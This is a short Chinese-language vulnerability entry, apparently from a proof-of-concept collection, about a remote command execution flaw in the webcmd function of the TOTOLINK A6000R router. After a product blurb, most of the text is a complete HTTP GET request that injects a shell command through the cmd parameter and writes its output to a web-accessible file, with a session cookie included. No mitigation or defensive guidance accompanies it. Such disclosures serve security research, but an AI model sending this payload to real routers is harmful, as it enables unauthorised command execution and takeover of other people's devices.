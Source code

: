 # T18-1TOTOLINK-A6000R-远程命令执行漏洞

TOTOLINK A6000R是一款性能卓越的无线路由器，采用先进的技术和设计，为用户提供出色的网络体验。其支持最新的Wi-Fi标准，可实现高速稳定的无线连接，适用于各种网络需求，包括流畅的高清视频流、快速的在线游戏和大规模文件传输。双频段支持让用户可以根据需求选择最佳的无线信号频段，确保网络稳定性和速度。此设备中的[webcmd](https://cn-sec.com/archives/tag/webcmd) 函数中存在命令注入漏洞，攻击者可以通过webcmd 函数中的cmd参数包含命令，进行命令执行攻击。

## poc

```java
GET /cgi-bin/luci/admin/mtk/webcmd?cmd=ls%20/>/www/555.txt HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=80c79bd6ad9bfba9656b7a8bee2a988f
```

![TOTOLINK-A6000R-RCE](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407271211651.png)

![TOTOLINK-A6000R-RCE](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407271211927.png)